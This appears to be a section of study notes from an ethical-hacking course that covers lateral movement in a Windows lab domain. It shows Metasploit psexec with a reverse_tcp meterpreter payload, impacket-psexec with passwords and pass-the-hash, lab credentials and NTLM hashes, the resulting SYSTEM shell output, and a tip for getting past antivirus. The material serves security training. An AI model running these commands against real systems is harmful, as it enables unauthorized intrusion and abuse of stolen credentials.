 # VIII. Gaining Shell Access

Based on the previous attacks, some information was obtained that can be utilized to gain a shell on a machine.

This can be done through a variety of ways, such as:

- **Through Metasploit - with a password.** `use exploit/windows/smb/psexec`
    
    Make sure Kali and both Windows machines are on.
    
    On Kali start metasploit with `msfconsole`.
    
    Next, type the following command `use exploit/windows/smb/psexec`.
    
    Use the `options` command.
    
    The target machine is 64-bit, so change the payload using `set payload windows/x64/meterpreter/reverse_tcp`
    
    Give the target windows machine IP address with `set RHOSTS <IP>`,
    
    The SMB Domain with `set smbdomain <DOMAIN NAME>`,
    
    The SMB Username (use the local administrator credentials) with `set smbuser <USERNAME>`,
    
    The Password with `set smbpass <PASSWORD>`,
    
    ```bash
    msf6 > use exploit/windows/smb/psexec
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
    payload => windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/psexec) > set rhosts 10.0.2.11
    rhosts => 10.0.2.11
    msf6 exploit(windows/smb/psexec) > set smbdomain ONEPIECE.local
    smbdomain => ONEPIECE.local
    msf6 exploit(windows/smb/psexec) > set smbuser Franky
    smbuser => Franky
    msf6 exploit(windows/smb/psexec) > set smbpass Password1
    smbpass => Password1
    msf6 exploit(windows/smb/psexec) > options
    
    Module options (exploit/windows/smb/psexec):
    
       Name                  Current Setting  Required  Description
       ----                  ---------------  --------  -----------
       RHOSTS                10.0.2.11        yes       The target host(s), see https://docs.metasplo
                                                        it.com/docs/using-metasploit/basics/using-met
                                                        asploit.html
       RPORT                 445              yes       The SMB service port (TCP)
       SERVICE_DESCRIPTION                    no        Service description to be used on target for
                                                        pretty listing
       SERVICE_DISPLAY_NAME                   no        The service display name
       SERVICE_NAME                           no        The service name
       SMBDomain             ONEPIECE.local   no        The Windows domain to use for authentication
       SMBPass               Password1        no        The password for the specified username
       SMBSHARE                               no        The share to connect to, can be an admin shar
                                                        e (ADMIN$,C$,...) or a normal read/write fold
                                                        er share
       SMBUser               Franky           no        The username to authenticate as
    
    Payload options (windows/x64/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.0.2.4         yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    ```
    
    Finally run the exploit using the `run` command.
    
    We can set this session to the background using `background`, show all current sessions with `sessions` and go back to any available session using `session <ID>`.
    
    ```bash
    msf6 exploit(windows/smb/psexec) > run
    
    [*] Started reverse TCP handler on 10.0.2.4:4444 
    [*] 10.0.2.11:445 - Connecting to the server...
    [*] 10.0.2.11:445 - Authenticating to 10.0.2.11:445|ONEPIECE.local as user 'Franky'...
    [*] 10.0.2.11:445 - Selecting PowerShell target
    [*] 10.0.2.11:445 - Executing the payload...
    [+] 10.0.2.11:445 - Service start timed out, OK if running a command or non-service executable...
    [*] Sending stage (200774 bytes) to 10.0.2.11
    [*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.11:63341) at 2024-04-22 06:16:06 -0400
    
    meterpreter > background
    [*] Backgrounding session 1...
    msf6 exploit(windows/smb/psexec) > sessions
    
    Active sessions
    ===============
    
      Id  Name  Type                     Information                   Connection
      --  ----  ----                     -----------                   ----------
      1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ FRANKY  10.0.2.4:4444 -> 10.0.2.11:633
                                                                       41 (10.0.2.11)
    
    ```
    

- **Through Metasploit - with a hash.** `use exploit/windows/smb/psexec`
    
    The steps are the same as the one above with minor differences such as not requiring a SMB Domain  This can be achieved with `unset smbdomain`.
    
    And, the user needs to be changed to the local administrator with `set smbuser administrator`.
    
    Copy the administrator hash from the SMB relay attack and use it with `set smbpass <HASH>`.
    
    ```bash
    msf6 exploit(windows/smb/psexec) > unset smbdomain
    Unsetting smbdomain...
    [!] Variable "smbdomain" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear smbdomain
    msf6 exploit(windows/smb/psexec) > set smbuser administrator
    smbuser => administrator
    msf6 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
    smbpass => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
    ```
    
    Run the exploit.
    
    ```bash
    msf6 exploit(windows/smb/psexec) > run
    
    [*] Started reverse TCP handler on 10.0.2.4:4444 
    [*] 10.0.2.11:445 - Connecting to the server...
    [*] 10.0.2.11:445 - Authenticating to 10.0.2.11:445 as user 'administrator'...
    [*] 10.0.2.11:445 - Selecting PowerShell target
    [*] 10.0.2.11:445 - Executing the payload...
    [*] Sending stage (200774 bytes) to 10.0.2.11
    [+] 10.0.2.11:445 - Service start timed out, OK if running a command or non-service executable...
    [*] Meterpreter session 2 opened (10.0.2.4:4444 -> 10.0.2.11:61424) at 2024-04-22 06:23:07 -0400
    
    meterpreter > ls
    Listing: C:\Windows\system32
    ```
    

These methods tend to be pretty noisy and can easily be detected if used in a real-world environment. Hence we can use a tool like:

- **psexec - with password.** `psexec.py ONEPIECE.local/franky:'Password1'@10.0.2.11`
    
    Go to a new tab and use `impacket-psexec DOMAIN NAME/USERNAME:'PASSWORD'@IPADDRESS`
    
    And we have a shell.
    
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo impacket-psexec ONEPIECE.local/franky:'Password1'@10.0.2.11 
    [sudo] password for kali: 
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [*] Requesting shares on 10.0.2.11.....
    [*] Found writable share ADMIN$
    [*] Uploading file JOAVimib.exe
    [*] Opening SVCManager on 10.0.2.11.....
    [*] Creating service wUhC on 10.0.2.11.....
    [*] Starting service wUhC.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.19045.2006]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> net user
     
    User accounts for \\
    
    -------------------------------------------------------------------------------
    Administrator            DefaultAccount           Guest                    
    Suuuper                  WDAGUtilityAccount       
    
    ```
    
    NOTE: In a situation were there’s a password that cannot be passed as a string, simply omit it from the command and enter it in the prompt.
    

- **psexec - with a hash.** `psexec.py administrator@10.0.2.11 -hashes LM:NT`
    
    Copy the administrator hash from the SMB relay attack.
    
     ![shell_1](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/b07ee86c-88ce-4dc3-bc6d-9fcac43627fd)

    
    Use the following command `impacket-psexec USERNAME@IPADDRESS -hashes HASH`
    
    Boom a shell.
    
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo impacket-psexec administrator@10.0.2.11 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [*] Requesting shares on 10.0.2.11.....
    [*] Found writable share ADMIN$
    [*] Uploading file wTVCTmGn.exe
    [*] Opening SVCManager on 10.0.2.11.....
    [*] Creating service RHCb on 10.0.2.11.....
    [*] Starting service RHCb.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.19045.2006]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> net user
     
    User accounts for \\
    
    -------------------------------------------------------------------------------
    Administrator            DefaultAccount           Guest                    
    Suuuper                  WDAGUtilityAccount       
    ```
    
    NOTE: In a situation where psexec does not work or gets blocked by an antivirus. Use `wmicexec` or `smbexec` with the same arguments.
